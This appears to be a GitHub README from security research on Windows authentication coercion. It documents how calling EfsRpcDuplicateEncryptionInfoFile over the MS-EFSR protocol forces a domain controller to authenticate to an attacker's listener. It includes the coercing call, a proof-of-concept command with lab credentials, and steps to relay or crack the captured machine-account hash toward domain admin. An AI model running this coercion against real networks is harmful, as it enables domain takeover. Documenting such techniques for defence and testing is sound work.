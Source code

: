 # MS-EFSR - Remote call to EfsRpcDuplicateEncryptionInfoFile (opnum 13)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipes**: `\pipe\lsarpc`, `\pipe\efsrpc`

 - **Function name**: [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2)

 - **Function operation number**: `13`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDuplicateEncryptionInfoFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD EfsRpcDuplicateEncryptionInfoFile(
   [in] handle_t binding_h,
   [in, string] wchar_t* SrcFileName,
   [in, string] wchar_t* DestFileName,
   [in] DWORD dwCreationDisposition,
   [in] DWORD dwAttributes,
   [in, unique] EFS_RPC_BLOB* RelativeSD,
   [in] BOOL bInheritHandle
 );
```

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcDuplicateEncryptionInfoFile`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2